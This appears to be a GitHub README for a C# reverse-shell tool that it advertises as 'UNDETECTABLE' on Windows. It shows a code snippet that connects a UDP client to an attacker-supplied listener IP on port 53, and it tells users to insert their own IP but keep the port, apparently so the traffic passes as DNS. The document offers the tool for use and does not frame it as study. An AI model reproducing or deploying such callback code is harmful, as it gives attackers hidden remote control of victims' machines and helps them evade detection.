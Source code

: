 # reverse-shell-csharp
UNDETECTABLE Reverse Shell with C# by Windows!
<br><br><br>
Change the listener IP here<br>
<code>
			try{
				udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!
			}
</code>
